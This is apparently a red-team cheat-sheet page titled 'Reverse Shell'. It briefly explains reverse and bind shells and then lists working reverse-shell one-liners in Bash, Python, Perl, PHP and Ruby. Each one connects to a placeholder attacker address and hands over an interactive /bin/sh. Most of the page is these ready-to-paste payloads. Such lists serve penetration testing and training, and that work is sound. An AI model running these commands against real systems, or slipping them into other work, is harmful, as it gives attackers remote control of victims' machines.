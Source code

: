 ```yaml
---
title: Reverse Shell
date: 2025-01-11 20:00:00 +0100
categories: [Red Team, Network]
tags: [shell, bash, zsh, php, python, socat, netcat, msfvenom, metasploit, reverse shell, bind shell, shell stabilization, shell payloads]     # TAG names should always be lowercase
---
```

# Reverse Shell

> A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.
## Types of shell
There are two types of shells: 
1. **Reverse Shell**: The target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection.
2. **Bind Shell**: The target machine opens a port and waits for an incoming connection. The attacking machine connects to that port and gets a shell.

### Reverse Shell
A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

#### Bash shell
```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

#### Python shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Perl shell
```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP shell
```php
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby shell
```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
